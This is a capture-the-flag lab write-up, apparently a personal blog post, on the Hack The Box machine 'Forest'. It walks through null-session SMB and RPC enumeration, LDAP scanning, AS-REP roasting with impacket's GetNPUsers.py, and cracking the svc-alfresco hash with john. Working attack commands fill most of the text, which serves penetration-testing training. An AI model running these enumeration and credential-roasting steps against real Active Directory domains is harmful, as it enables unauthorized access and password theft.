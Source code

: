 ### Enumeration
##### 53
The first thing that I like to try is a zone transfer. `host -l forest.htb.local 10.10.10.161`  or `dig @10.10.10.161  forest.htb.local` usually do the trick, but they don't work here, so I'll move on to SMB. A successful zone transfer command, should you need one in the future, is `dig axfr @10.10.10.161 htb.local`

##### 139/445
SMB shares usually provide a great deal of information through listing shares or even being able to access certain shares through null authentication. We can try with a tool like `smbmap` to list the share or `smbclient` to list and even connect. 
`smbmap -H forest.htb -u ""` doesn't give me anything as null authenticated, and `smbclient --list //forest.htb/ --no-pass` gives me nothing.

We can also try to user RPC over 135/445. We can use `rpcclient` to probe with null authentication.
`rpcclient -U "ldap" -N 10.10.10.161`, where the flags are for a null username and no password.

##### NOTE
We can also use `enum4linux -av 10.10.10.161` to serve as an automated reconnaissance tool in this sense, as it dumps AD information. Shout out to Kieth! We can use `nmap` as well. `nmap -n -sV --script "ldap* and not brute" 10.10.10.161`

![Image](/assets/Screenshot 2024-09-14 at 9.43.27 PM.png)

### Initial Access

We can connect with `rpcclient`, and better yet, get access to information by using `enumdomusers` and `enumdomgroups`. If you want to dive deeper, you can do so with `querygroupmem [rid]`and `queryuser [rid]`.  I want to note a few things here. We can now take these and use an `impacket` script called `GetNPUsers.py` to try and authenticate some of these accounts against the Key Distribution Center. Kerberos pre-authentication must be disabled for this to work, and we can throw these against a wall to see what we find! Take the users and use `vim` to throw them into a `txt` file. Then, grep the usernames with the script below, and take that new file to pass to the Kerberos service using `impacket` and `GetNPUsers.py`. It's also important to note the importance of building tools correctly, and making sure that you are using the versions from the correct libraries! Stay organized.

`grep -oP 'user:\[\K[^\]]+' file.txt > newfile.txt`

``` bash
for user in $(cat newfile.txt); do python3 GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done
```

Now, you might get errors depending on your `impacket` and python version. I recommend installing the latest versions of both, building them correctly (`setup.py`), and prepending any mention of the `impacket` scripts with the aforementioned version of python you want to run it. In my case, this was python3.

We can see that once the script is run, we get a TGT encrypted with the user's password for `svc-alfresco`. We can use `john` or `hashcat` to try and crack this. Lets copy this into a file and pass it to one of these (`john` in my case).

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
